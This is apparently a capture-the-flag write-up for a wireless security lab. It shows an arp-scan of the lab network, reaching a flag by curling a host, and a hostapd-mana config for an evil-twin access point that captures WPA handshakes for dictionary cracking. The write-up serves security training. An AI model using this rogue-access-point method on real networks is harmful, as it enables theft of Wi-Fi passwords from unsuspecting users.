 After scanning the network we fingd the following clients on the network.

```jsx
user@WiFiChallengeLab:~/VICTOR/captures/psk$ sudo arp-scan -I wlan2 -l
Interface: wlan2, type: EN10MB, MAC: 02:00:00:00:02:00, IPv4: 192.168.2.84
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.2.1	f0:9f:c2:71:22:12	Ubiquiti Networks Inc.
192.168.2.7	28:6c:07:6f:f9:43	XIAOMI Electronics,CO.,LTD
192.168.2.7	28:6c:07:6f:f9:44	XIAOMI Electronics,CO.,LTD (DUP: 2)
192.168.2.8	28:6c:07:6f:f9:43	XIAOMI Electronics,CO.,LTD
192.168.2.8	28:6c:07:6f:f9:44	XIAOMI Electronics,CO.,LTD (DUP: 2)

5 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 2.225 seconds (115.06 hosts/sec). 5 responded

```

we can try and curl one of the host and see if we can get the flag.

![image.png](image%2034.png)

by curling the host `192.168.2.8` we get the user flag.

##  12. What is the wifi-offices password? 

 For this challenge,  imagine you’re trying to connect to a Wi-Fi network called "wifi-offices," but it doesn’t show up in the list of available networks. This could mean the network is in a different location or no longer exists. However, there’s still a way to figure out its password. Here’s how:

We can create a fake access point (AP) that imitates "wifi-offices" using a tool like [hostapd-mana](https://github.com/sensepost/hostapd-mana). When devices nearby try to connect to this fake AP (because they’re still looking for "wifi-offices"), we can capture their connection attempts, also known as probes. From these, we can capture a handshake, which is like a key exchange between the device and the network. Once we have this handshake, we can run a dictionary attack on it to try and crack the password and see it in plain text.

The contents of our config file shall contain the following details.

```jsx
interface=wlan1
driver=nl80211
hw_mode=g
channel=1
ssid=wifi-offices
mana_wpaout=hostapd.hccapx
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=12345678
```
